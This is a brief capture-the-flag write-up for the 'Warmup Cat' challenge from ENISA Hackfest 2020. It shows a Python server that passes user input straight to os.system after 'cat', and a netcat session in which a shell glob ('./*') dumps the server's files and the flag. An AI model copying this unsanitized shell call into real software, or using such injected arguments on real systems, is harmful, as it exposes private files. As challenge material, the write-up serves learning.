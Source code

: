 # Warmup Cat :cat:

### Description:

* https://imgur.com/a/NAuGuop os.system(('\\cat ' + user_input_olddie_eol))

### Challenge:

As the description says, it just executes:

```python
os.system(('\\cat ' + user_input_olddie_eol))
```

We don't know the name of the flag, so why don't just `cat` the whole directory?

```sh
w3th4nds@void:~/ctfs/ENISA_hackfest_2020/misc/warmup_cat$ nc 34.107.89.145 30993
Exec: "./*"
"./*"
python server.pyimport os
Niswanob1=input('Exec: ')
os.system(('\\cat ' + Niswanob1))

# ctf{c7592e4a8e0b395cb2c0b661c567a8c9eb2bcbeea9c79c08b722914d2b5e3a55}^C
```



# 
